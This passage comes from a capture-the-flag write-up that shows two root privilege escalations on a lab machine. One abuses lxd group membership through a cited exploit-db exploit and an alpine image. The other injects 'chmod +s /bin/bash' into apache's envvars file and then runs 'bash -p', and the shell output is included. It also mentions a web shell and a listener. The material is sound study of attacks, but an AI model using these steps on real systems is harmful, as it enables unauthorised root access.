 * 
* Now, restart apache2 (using sudo), reopen the listener and the shell.php page :
```
$ id
uid=1000(anders) gid=116(lxd) groups=116(lxd),24(cdrom),27(sudo),30(dip),46(plugdev)
```

We are anders, again, but with gid lxd.

Now, we can just apply the [exploit described here](https://www.exploit-db.com/exploits/46978), to end with a root access on the drive :

* Get the alpine image on our machine
* Build it
* Send both script and alpine.tgz to the target
* Run script
* And... 
```
~ # ^[[31;5Rcd /mnt/root/root  
cd /mnt/root/root  
/mnt/root/root # ^[[31;18Rcat root.txt  
cat root.txt  
__REDACTED__
```
Voilà !

## Flag 7 again : Privesc with chmod
Let's edit the same /etc/apache2/envvars, and just add inside
```
chmod +s /bin/bash
```
Now, restart apache2 (using sudo): bash now has the suid flag !!!
```
$ bash -p
# bash-5.0# id
uid=1000(anders) gid=1000(anders) euid=0(root) egid=0(root) groups=0(root),24(cdrom),27(sudo),30(dip),46(plugdev),1000(anders)
bash-5.0# cat /root/root.txt
__REDACTED__
```

